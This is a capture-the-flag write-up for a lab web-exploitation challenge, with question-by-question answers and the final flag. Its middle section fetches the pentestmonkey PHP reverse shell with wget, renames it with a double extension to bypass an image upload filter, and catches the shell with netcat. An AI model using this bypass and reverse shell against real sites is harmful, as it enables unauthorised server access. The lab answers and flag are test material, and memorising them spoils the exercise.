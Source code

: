 ```yaml
---
description: Web Exploitation - GET ; Upload ; Reverse Shell
---
```


# The Elf Strikes Back!

## Web Exploitation

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

## Chalenge

Open the site

![](../.gitbook/assets/image%20%2811%29.png)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2825%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%2818%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2824%29.png)

![](../.gitbook/assets/image%20%2829%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%2821%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%2813%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%2819%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}

